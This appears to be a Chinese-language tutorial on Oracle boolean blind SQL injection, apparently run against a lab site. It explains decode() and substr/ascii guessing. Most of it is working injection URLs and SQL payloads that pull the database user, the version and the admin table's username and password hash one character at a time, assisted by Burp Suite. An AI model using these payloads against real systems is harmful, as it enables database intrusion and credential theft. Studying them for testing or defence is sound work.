

## 1、在oracle两种利用布尔型实现盲注入方法

是否存在注入 根据页面的返回不同 从而判断注入点。

出数据 通过注入点 构造的SQL语句 判断页面是否正常。

## 2、decode盲注入

decode(字段或字段的运算，值1，值2，值3,这个函数运行的结果是，当字段或字段的运算的值等于值1时，该函数返回值2，否则返回3

当然值1，值2，值3也可以是表达式，这个函数使得某些sql语句简单了许多

使用方法： 比较大小

select decode(sign(变量1-变量2),-1,变量1,变量2) from dual; --取较小值

sign()函数根据某个值是0、正数还是负数，分别返回0、1、-1

例如：

变量1=10，变量2=20

则sign(变量1-变量2)返回-1，decode解码结果为“变量1”，达到了取较小值的目的。

 

1+3=4 返回1 不等于返回0

```sql
select decode(1+3,4,1,0) from dual;
select decode(user,'SYSTEM',1,0) from dual;
```

获取当前用户  (select user from dual)
获取当前版本 (select banner from sys.v_$version where rownum=1)
获取当前admin表的帐号和密码 (select username||password from admin)

获取字符长度

```sql
select length(user) from dual --
select * from art where id=1 and 6=(select length(user) from dual) -- 
```

```http
http://www.jsporcle.com/news.jsp?id=1 and 6=(select length(user) from dual) --
```

当前用户第一个字母的是否等于S 等于返回1否则返回0

```sql
(select decode(substr(user,1,1),'S',1,0) from dual) --
(select decode(substr(user,2,1),'Y',1,0) from dual) --
(select decode(substr(user,3,1),'S',1,0) from dual) --
(select decode(substr(user,4,1),'T',1,0) from dual) --
(select decode(substr(user,5,1),'E',1,0) from dual) --
(select decode(substr(user,6,1),'N',1,0) from dual) --
```

测试当前用户语句

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr(user,1,1),'S',1,0) from dual) --
```

获取当前admin表的帐号和密码

```sql
select * from art where id=1 and 1=(select decode(substr((select username||password from admin),1,1),'a',1,0) from dual)
```

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr((select username%7c%7cpassword from admin),1,1),'a',1,0) from dual)
```

**判断字符的字符**

abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_. 

查询第二个的时候

```http
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr((select username%7c%7cpassword from admin),2,1),'d',1,0) from dual)
```

admin

**用burpsuite测试盲注入**

 

## **3、盲注入通用 逐字猜解法**

先获取数据长度

```sql
select * from art where id=1 and 37=(select length(username||password) from admin);
```

burp截取数据长度

```http
http://www.jsporcle.com/news.jsp?id=1 and 37=(select length(username%7c%7cpassword) from admin)--
```

猜解ascii码

substr截取字符串长度,ascii 把字符的ASCII转出来

```sql
(select ascii(substr(username||password,1,1)) from admin); 
```

```
http://www.jsporcle.com/news.jsp?id=1 and (select ascii(substr(username%7c%7cpassword,1,1)) from admin)=97
```

配合burp，把所有ascii码找出来并转化，得到下列信息：

admine10adc3949ba59abbe56e057f20f883e